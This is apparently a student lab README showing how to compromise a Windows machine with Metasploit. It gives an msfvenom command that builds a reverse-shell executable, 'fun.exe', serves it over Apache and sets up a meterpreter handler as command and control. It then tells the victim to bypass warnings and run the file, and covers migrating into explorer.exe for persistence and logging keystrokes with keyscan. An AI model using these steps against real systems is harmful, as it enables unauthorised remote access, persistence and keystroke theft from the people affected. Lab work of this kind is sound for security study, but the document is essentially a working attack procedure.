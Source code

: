 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:

![image](https://github.com/abinayasangeetha/Compromising-windows-using-Metasploit/assets/119393675/d1c628d5-ae70-499f-80a9-2a13ccd7c061)


Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT

![image](https://github.com/abinayasangeetha/Compromising-windows-using-Metasploit/assets/119393675/e31ee43c-f32b-4dbe-8952-71f28ca4fe6b)


copy the fun.exe into the apache /var/www/html folder

![image](https://github.com/abinayasangeetha/Compromising-windows-using-Metasploit/assets/119393675/ccb90197-d846-446b-9edf-81b7fd8f1850)

Start apache server sudo systemctl apache2 start
![image](https://github.com/abinayasangeetha/Compromising-windows-using-Metasploit/assets/119393675/741b1912-c384-4af7-a5f8-d5b399df615c)


Check the status of apache2
![image](https://github.com/abinayasangeetha/Compromising-windows-using-Metasploit/assets/119393675/68acc408-d223-4f29-a75f-303200d3bf42)

Invoke msfconsole:
## OUTPUT:




Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit

![image](https://github.com/abinayasangeetha/Compromising-windows-using-Metasploit/assets/119393675/6fc5cb00-1227-41e4-bfb8-d49ba09f2b26)




On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 

![image](https://github.com/abinayasangeetha/Compromising-windows-using-Metasploit/assets/119393675/fd3d8c0e-7735-4541-b9d3-61234d94d0f5)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![image](https://github.com/abinayasangeetha/Compromising-windows-using-Metasploit/assets/119393675/03086928-e82a-4f0e-9fc6-fb7f7d825345)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![image](https://github.com/abinayasangeetha/Compromising-windows-using-Metasploit/assets/119393675/078d9018-aa91-496a-962d-1ae4d1f64907)


Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/abinayasangeetha/Compromising-windows-using-Metasploit/assets/119393675/ddcabbdd-7142-4df5-a0a1-64124a5422e1)



keyscan_dump	Shows the keystrokes captured so far

![image](https://github.com/abinayasangeetha/Compromising-windows-using-Metasploit/assets/119393675/abb9e0f7-45c7-49d4-9548-23693c83d065)


## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
